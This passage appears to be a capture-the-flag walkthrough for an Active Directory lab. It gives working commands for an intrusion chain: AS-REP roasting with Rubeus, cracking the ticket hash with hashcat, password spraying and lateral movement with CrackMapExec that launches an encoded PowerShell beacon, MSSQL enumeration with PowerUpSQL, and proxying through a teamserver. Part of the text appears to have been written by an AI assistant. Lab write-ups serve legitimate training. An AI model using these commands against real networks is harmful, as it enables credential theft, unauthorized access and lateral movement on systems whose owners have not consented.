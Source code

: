    Command:
   ```plaintext
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe asreproast /nowrap
   ```
2. **Hash Cracking for Ticket**:
   - Utilize Hashcat to crack the obtained ticket hash for `svc-mssql`.

   Command:
   ```plaintext
   sudo hashcat -m 18200 hash.txt ~/Downloads/wordlists/rockyou.txt -O
   ```

3. **Password Spraying for New Credentials**:
   - Perform password spraying across the subnet to find weak credentials.

   Command:
   `crackmapexec smb 10.10.2.0/24 -u svc-mssql -p 'Sh1mm1e' --continue-on-success`

4. **Enumeration and Lateral Movement**:
   - Use CrackMapExec to run the command to get a beacon on wkstn2.

   Command:
   `crackmapexec smb 10.10.2.0/24 -u svc-mssql -p 'Sh1mm1e' --continue-on-success -X 'powershell -ep bypass -enc [SQB...DDF]`
   
5. **Retrieve the flag:**
   `powershell type C:\Users\Administrator\Desktop\flag.txt`

---
Sure, here's the documentation with detailed explanations for the provided commands:

## Flag 3:

1. Import PowerUpSQL module:
   ```
   powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
   ```

2. Test SQL Connection:
   ```
   powershell Get-SQLConnectionTest -Instance "dc-1.dev.hackerverse.games,1433" | fl
   ```
   This command tests the connection to the MSSQL server at "dc-1.dev.hackerverse.games" on port 1433.

### Setup SOCKS Proxy from Teamserver Beacon:

On any beacon, set up a SOCKS proxy from Teamserver and use that teamserver proxy in windows machine with your favorite tool, I am using proxifier.

### Attacker Windows Machine:

1. Run HeidiSQL as `svc-mssql` user:
   ```
   runas /netonly /user:DEV\svc-mssql "\\Mac\Home\Documents\Tools\HeidiSQL\heidisql.exe"
   ```
   This command runs HeidiSQL tool as the `svc-mssql` user for accessing MSSQL server.
